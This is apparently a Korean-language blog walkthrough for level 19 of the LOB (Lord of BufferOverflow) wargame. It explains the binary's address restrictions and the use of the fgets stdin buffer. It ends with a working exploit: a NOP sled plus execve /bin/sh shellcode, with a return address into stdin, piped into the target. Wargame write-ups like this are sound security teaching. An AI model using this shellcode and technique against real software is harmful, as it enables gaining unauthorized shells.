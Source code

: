 ```yaml
---
title:  "[LOB] level 19: nightmare >> xavius "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-30 12:53:21

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 19

**nightmare / beg for me**

xavius.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147750856-cde02cab-d496-4e58-b06b-d570fb2fcb49.png)

스택영역 리턴 불가능 \xbf  
바이너리 리턴 불가능 \x08
leave-ret 사용불가 \xc9, \xc3
LD_환경변수 사용불가 LD_* eraser

이번문제에서 집중해야할 것은 fgets함수이다  
fgets 함수는 입력을 받고, 받은 값을 임시버퍼인 stdin에 저장합니다

gdb확인  
![image](https://user-images.githubusercontent.com/69203345/147752063-6011d7a4-4a91-439f-b78e-7bbba75ad56e.png)  
아래 더 있지만 필요한것만 뽑아옴  
<main+11> 부분에서 fgets 에 사용할 stdin을 push함  

![image](https://user-images.githubusercontent.com/69203345/147752884-11eea8c0-1e0e-439b-a98e-8b41c630149f.png)
stdin 확인  

![image](https://user-images.githubusercontent.com/69203345/147753302-eeaa51ff-46f0-48dd-9a6d-df77477e3110.png)  

0x40015000부터 입력한 값이 들어갔고  
0x4004500b에 문자열의 끝에 있는 null값이 들어있다  

페이로드는 쉘코드가 stdin에서 실행되도록 작성한다  
> NOP[19]+SHELLCODE[25]+RET(0x40015000)[4]

> (python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x00\x50\x01\x40"'; cat) | ./xavius

![image](https://user-images.githubusercontent.com/69203345/147753666-604b1c3d-6e32-48d5-a5be-7c3e0626711f.png)